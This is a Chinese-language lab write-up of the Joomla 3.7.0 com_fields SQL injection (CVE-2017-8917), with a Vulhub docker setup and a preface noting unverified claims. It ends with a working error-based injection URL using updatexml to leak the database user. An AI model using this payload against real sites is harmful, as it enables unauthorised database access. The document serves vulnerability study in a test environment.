

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：com_fields modal路由公开；DB支持updatexml错误输出

- **事实待核（1）**：简介3.7版本后引入易被理解全部后续版本受影响，应限定3.7.0并补修复版。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：docker-compose缺目录/固定环境来源；SQL错误只有截图无文本。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：最流行排名为无来源时效背景，不属于漏洞事实。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Joomla 3.7.0 SQL注入漏洞 CVE-2017-8917 

## 漏洞描述

Joomla是一套世界第二流行的内容管理系统。它使用的是PHP语言加上MySQL数据库所开发的软件系统，可以在Linux、 Windows、MacOSX等各种不同的平台上执行，目前由开放源码组织Open Source Matters进行开发与支持。

Joomla 3.7版本后引入一个新的组件 “com_fields”，这一组件会引发易被利用的漏洞，并且不需要受害者网站上的高权限，这意味着任何人都可以通过对站点恶意访问利用这个漏洞。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库主机名：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

安装完成后，访问以下链接，即可看到报错信息：

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```




---

> 来源：Threekiii/Awesome-POC
